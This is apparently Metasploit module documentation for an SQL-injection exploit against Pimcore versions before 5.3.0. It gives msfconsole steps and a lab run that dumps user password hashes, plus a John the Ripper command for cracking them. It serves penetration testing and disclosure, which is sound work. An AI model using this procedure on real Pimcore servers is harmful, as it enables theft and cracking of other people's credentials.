 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password in the format `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

  The following is an example of cracking a retrieved hash using John the Ripper on OS X (`md5{,sum}` invocation may vary):

```
wvu@kharak:~$ md5 -qs 'admin:pimcore:TrustNo1!!' | john --stdin <(echo 'admin:$2y$10$k6odZgiw2RnC1gbuD2/vRO21SxVuAeUiYYWwRtmYuNHYvZCzEX2Fy')
Created directory: /Users/wvu/.john
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
c28e017eec634579fd9309d08171c115 (admin)
1g 0:00:00:00  14.28g/s 14.28p/s 14.28c/s 14.28C/s c28e017eec634579fd9309d08171c115
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$
```

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/gather/pimcore_creds_sqli`
  4. Do: `set RHOSTS [IP]`
  5. Do: `set TARGETURI [URI]`
  6. Do: `set APIKEY [KEY]`
  7. Do: `run`
  8. You should get a list of Pimcore user credentials

## Options

  **APIKEY**

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3

```
msf5 > use auxiliary/gather/pimcore_creds_sqli
msf5 auxiliary(gather/pimcore_creds_sqli) > set rhosts 192.168.37.246
rhosts => 192.168.37.246
msf5 auxiliary(gather/pimcore_creds_sqli) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
msf5 auxiliary(gather/pimcore_creds_sqli) > run

[+] Credentials obtained:
[+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
[+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
[+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
[*] Auxiliary module execution completed
```
